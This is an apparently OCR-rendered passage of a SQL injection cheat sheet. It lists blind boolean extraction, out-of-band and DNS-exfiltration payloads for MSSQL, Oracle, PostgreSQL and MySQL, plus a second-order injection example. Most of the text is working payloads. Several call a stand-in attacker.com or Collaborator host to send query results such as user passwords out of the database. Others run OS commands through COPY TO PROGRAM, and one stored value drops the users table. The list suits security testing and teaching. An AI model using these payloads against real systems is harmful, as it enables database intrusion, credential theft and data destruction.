 ```sql
SELECT ASCII(SUBSTR((SELECT user()),1,1)) > 100
```

→ Can be used to binary search characters (faster).

### **Out-of-Band (OOB) SQLi**

| DBMS | Payload Example |
| --- | --- |
| MSSQL | `exec master..xp_dirtree '\\attacker.com\pwned'` |
| Oracle | `SELECT UTL_HTTP.REQUEST('http://attacker.com') FROM dual;` |
| PostgreSQL | `COPY (SELECT '') TO PROGRAM 'nslookup attacker.com';` |

Requires attacker-controlled server + Burp Collaborator / DNS log.

### DNS Lookup (Out-of-Band)

| DBMS | Payload |
| --- | --- |
| Oracle | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| MSSQL | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |
| PostgreSQL | `COPY (SELECT '') TO PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL | `LOAD_FILE('\\BURP-COLLABORATOR-SUBDOMAIN\a')` or `SELECT ... INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

### DNS Lookup with Data Exfiltration

| DBMS | Payload |
| --- | --- |
| Oracle | SELECT UTL_HTTP.REQUEST('[http://attacker.com/?q='||](http://attacker.com/?q=%27%7C%7C)(SELECT password FROM users WHERE rownum=1)) FROM dual; |
| MSSQL | `DECLARE @p VARCHAR(1024); SET @p=(SELECT YOUR_QUERY); EXEC('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR/a"')` |
| PostgreSQL | Use plpgsql function with `COPY TO PROGRAM 'nslookup ...'` and dynamic execution |
| MySQL | `SELECT YOUR_QUERY INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'` (Windows only) |

> These techniques may require privileges and attacker-controlled DNS listener (e.g., Burp Collaborator).
> 

### **Second-Order SQLi Example**

1. Submit `username = '); DROP TABLE users; --`
2. Input is stored safely in DB
3. Later retrieved in unsafe query:
    
    ```sql
    SELECT * FROM logins WHERE username = '$stored_value';
    ```
    
